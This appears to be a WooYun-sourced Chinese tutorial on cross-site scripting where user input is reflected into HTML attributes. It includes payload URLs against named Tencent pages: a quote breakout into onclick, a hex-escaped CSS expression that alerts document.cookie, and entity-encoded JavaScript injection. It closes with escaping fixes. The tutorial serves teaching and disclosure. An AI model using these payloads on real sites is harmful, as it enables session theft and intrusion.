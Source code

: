 # 3\. 输出在 HTML 属性里的情况

> 来源：[3\. 输出在 HTML 属性里的情况](http://www.wooyun.org/bugs/wooyun-2010-015963)

## 简要描述

和前面的不一样的时，有时候，输出会出现在 HTML 标签的属性之中。

例如： `<input value="输出">` 、 `<img onload="...[输出]...">` ，再比如 `<body style="...[输出]...">` .. 这个时候怎么办呢？

## 详细说明

1\. 大网站一般不是吃素的。前面讲到的基本情况，一般都很少遇到了。

2\. 这个时候我们可以把目光发展一下，找一找在【输出】出现在 HTML 属性里的情况。

3\. 最为典型的一种情况，是下面这样的。

```
http://xxxx.com/search.php?word=乌云欢迎您 
```

HTML 代码里则是下面这样情况的。

```
.. 关键词：<input type="text" value="乌云欢迎您" /> 
```

如果这里的 word 没过滤双引号。就会有以下的情况发生。

```
http://xxxx.com/search.php?word=乌云欢迎您" onclick="alert(1) 
```

对应的源代码如下：

```
<input type="text" value="乌云欢迎您" onclick="alert(1)" /> 
```

解析：

![image](img/Image_008.jpg)

那么当用户点击这个文本框时，就会触发 `alert(1)` 。

4\. 当然理想是美好的，现实总是残酷的，我水平有限，并没有在腾讯找到这样的例子。

因为绝大部分这样的情况， 腾讯都会做出相应的过滤。 过滤方法也挺简单，将 `"` 过滤为 `&quot;` 就行。 过滤后的代码如下：

```
<input type="text" value="乌云欢迎您&quot; onclick=&quot;alert(1)" /> 
```

5\. 一般来说，上面的情况，过滤了 `"` ，可以说是高枕无忧了，但是事实并非如此。某些情况下。我们依然可以继续 XSS。下面以腾讯 为例。

6\. 首先看第一种场景。

```
http://follow.v.t.qq.com/index.php?c=follow&a=index&appkey=801004516&bg=我是一个兵,爱国爱人民&hsize=80&name=Zhanglifenft,chengyizhong,xiangyang20112007,linchufang,leonardoit,linchufang,qingfengxu6685,zhouzhiche n001,yuguoming-ruc,luomingtitan,bjwbgq,kezuozongbianji,weibotalk,lee007,jxzhongweizhi,lihaipengtx 
```

这里的 bg 参数过滤了【几乎】所有的东西。但是它输出在了 `<body style="[这里]">`

![image](img/Image_009.jpg)

更重要的是，这里没有过滤 `\` ，反斜线， 而 css 里，允许使用转义字符, `\ + ascii` 16 进制形式。这样一来，我们就可以构造利用语句啦。

这里过滤了 expression, 我们也可以轻松的用 `expr\65ssion` 绕过。

```
http://follow.v.t.qq.com/index.php?c=follow&a=index&appkey=801004516&bg=;w:expr\65ssion\28%20eval\28\27\69\66\28\21\7 7\69\6e\64\6f\77\2e\78\29\7b\61\6c\65\72\74\28\64\6f\63\75\6d\65\6e\74\2e\63\6f\6f\6b\69\65\29\3b\77\69\6e\64\6f\77\2 e\78\3d\31\7d\27\29\29&hsize=80&name=Zhanglifenft,chengyizhong,xiangyang20112007,linchufang,leonardoit,linchufang,qin gfengxu6685,zhouzhichen001,yuguoming-ruc,luomingtitan,bjwbgq,kezuozongbianji,weibotalk,lee007,jxzhongweizhi,lihaipeng tx 
```

效果如下：

![image](img/Image_010.jpg)

这种情况，遗憾之处在于，基于 css expression 的 XSS 已经进入暮年了，只有在 IE6，7 下方能触发，受众面小。这里只是作为一个案例来讲讲。

Tips: 至于这里的转义是如何写的：步骤如下：

例如 e 的 ascii 16 进制是 65, 我们就写为 `\65 expression -> expr\65ssion`。

本例缺陷点代码：

```
<body style="overflow:auto;background-color:#我是一个兵，爱国爱人民;"> 
```

7\. 再来看下一个在属性里的案例。这个例子也是比较常见的。比如：

```
<HTML 标签 onXXXX="...[输出在这里].."> 
<a href="javascript:[输出在这里]">xxxx </a> 
```

的例子。 正好，在腾讯的这个例子中，以上 2 个情况一起出现了。 我们以其中一种进行讲解。

```
http://stock.finance.qq.com/report/search.php?searchtype_yjbg=yjjg&searchvalue_yjbg=aaaaaaaaaa 
```

看输出，如下，aaaaaaaa 出现在了 2 个点。

![image](img/Image_011.jpg)

常规来说，因为 `onxxxx="[输出]"` 和 `href="javascript:[输出]"` 与 `<script>[输出]</script>` 没有太大区别。因为[输出]所在的地方，都是 javascript 脚本。

但是`<script>[输出]</script>` 如果被过滤，往往没有太好的办法。 而上面这 2 种情况，则有一个很好的办法绕过过滤。

Tips:

在 HTML 属性中，会自动对实体字符进行转义。一个简单的比方。

```
<img src="1" onerror="alert(1)"> 
```

和

```
<img src="1" onerror="alert&#x28;1&#x29;"> 
```

是等效的

换言之，只要上面的情况，没有过滤 `&`，`#` 等符号，我们就可以写入任意字符。 看看缺陷点的代码

```
<li><input type="text" id="pagenum" class="inputstyle0814" onkeydown="if ((event.keyCode==13) && (this.value!='')) location.href='http://stock.finance.qq.com/report/search.php?offset='+this.value+'&searchtype_yjbg=yjjg&searchvalue_y jbg=aaaaaaaaaa'"/></li> 
```

JS 部分我们可以做以下构造,由于'被过滤，我们可以将'写为 `&#x27;`

```
location.href='........&searchvalue_yjbg=aaaaaa'
location.href='........&searchvalue_yjbg=aaaaaa'+alert(1)+'' location.href='........&searchvalue_yjbg=aaaaaa&#x27;+alert(1)+&#x27;' 
```

步骤如下：

![image](img/Image_012.jpg)

接着我们把代码转换为 url 的编码。 `& -> %26`, `# -> %23` 最后利用代码如下：

```
http://stock.finance.qq.com/report/search.php?searchtype_yjbg=yjjg&searchvalue_yjbg=aaaaaaa%26%23x27;%2balert(1)%2b%26%23x27; 
```

用户点击页面[GO]按钮触发。

![image](img/Image_013.jpg)

缺陷页面的 `<a href="">` 触发点的代码如下：

```
<li><div class="yebg"><a href="javascript:location='http://stock.finance.qq.com/report/search.php?offset='+document.getElementById('pagenum'). value+'&searchtype_yjbg=yjjg&searchvalue_yjbg=aaaaaaaaaa'">GO</a></div></li> 
```

## 修复方案

1\. 对于输出在 HTML 属性中的情况，需要特殊情况特殊对待，该过滤`\`的时候，请过滤`\`, 该过滤`&`的情况，则过滤掉`&`

2\. 碰到有某些修复的人用正则去判断， `&#xNNN..`, 而实际上 `&#x0NN;` `&#x00NN`, （后面自己慢慢试。。） 都是可以的。 或者是 `&#10` 进制; 以及一些特殊的 HTML 实体，如 `&quot;` 等，都要注意到，好麻烦， 最好的办法，还是 `&`过滤为 `&amp;` ：）